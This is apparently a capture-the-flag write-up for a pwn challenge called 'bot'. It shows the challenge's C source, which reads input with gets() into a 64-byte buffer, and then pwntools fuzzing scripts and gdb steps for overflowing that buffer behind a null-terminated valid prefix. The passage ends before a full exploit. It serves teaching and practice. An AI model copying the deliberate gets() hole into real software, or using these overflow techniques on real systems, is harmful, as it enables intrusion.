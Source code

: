 # bot (pwn) by kaiphait  

We got a Dockerfile, a libc, a linker, a binary and the source code,  
which is why my first thought was a ret2libc attack but it turned out that was not necessary.

### Source Code:  
'''
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(void) {
  setbuf(stdout, NULL);
  char input[64];
  volatile int give_flag = 0;
  puts("hi, how can i help?");
  gets(input);
  if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
}
'''

Looking at how the binary gets it's apparently vulnerable to a buffer overflow.
First I built a little script to generate test payloads:  
'''
from pwn import *
import sys

junk = cyclic(200)

sys.stdout.buffer.write(junk)
'''
'''
python fuzzer.py > test
--
gdb bot
--
b main
--
r < test

'''

But when I executed the binary with gdb, it did not cause the binary to crash since it exits  
when an input does not equal any of the strings in the source code.

My second try looked like:
'''
from pwn import *
import sys

junk = cyclic(200)
prefix = b"give me the flag\0"

sys.stdout.buffer.write(prefix + junk)
'''
In order to get the binary to not exit but still overflow the buffer, I added a "valid" input, ending in a nullbyte.
